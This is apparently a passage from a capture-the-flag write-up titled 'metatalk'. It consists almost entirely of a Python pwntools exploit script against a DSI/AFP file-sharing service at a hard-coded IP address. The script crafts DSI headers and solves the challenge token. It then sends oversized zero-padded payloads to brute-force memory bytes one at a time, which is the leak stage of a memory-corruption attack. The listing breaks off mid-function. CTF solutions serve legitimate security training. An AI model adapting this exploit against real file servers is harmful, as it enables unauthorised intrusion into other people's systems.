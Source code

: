 
### metatalk

```python
from pwn import *
import struct

HOST = "18.181.73.12"
PORT = 4869
#context.log_level = "error"

def create_header(data):
    dsi_header = b"\x00" # "request" flag
    dsi_header += b"\x04" # open session command
    dsi_header += b"\x00\x01" # request id
    dsi_header += struct.pack(">I", len(data)) # data offset
    dsi_header += struct.pack(">I", len(data))
    dsi_header += b"\x00\x00\x00\x00" # reserved
    dsi_header += data
    return dsi_header

def create_nop(data):
    dsi_header = b"\x00" # "request" flag
    dsi_header += b"\x08" # open session command
    dsi_header += b"\x00\x01" # request id
    dsi_header += struct.pack(">I", len(data)) # data offset
    dsi_header += struct.pack(">I", len(data))
    dsi_header += b"\x00\x00\x00\x00" # reserved
    dsi_header += data
    return dsi_header


def create_cmd(data):
    dsi_header = b"\x00" # "request" flag
    dsi_header += b"\x08" # open session command
    dsi_header += b"\x00\x01" # request id
    dsi_header += struct.pack(">I", len(data)) # data offset
    dsi_header += struct.pack(">I", len(data))
    dsi_header += b"\x00\x00\x00\x00" # reserved
    dsi_header += data
    return dsi_header


def leak(prefix):
    context.log_level = "error"
    global table,data
    for i in range(0,0x100):
        #print(i)
        r = remote("18.181.73.12",4869)
        r.recvline()
        s = process(r.recvline()[:-1].split())
        s.recvuntil(b"token: ")
        ans = s.recvline()[:-1]
        s.close()
        r.sendline(ans)
        r.send(create_header(b""))
        r.recvn(0x10)
        payload = b"\x00"*0x102270
        payload += prefix
        payload += p8(i)
        r.send(create_nop(payload))
        try:
            r.recvn(13,timeout=1)
            r.close()
```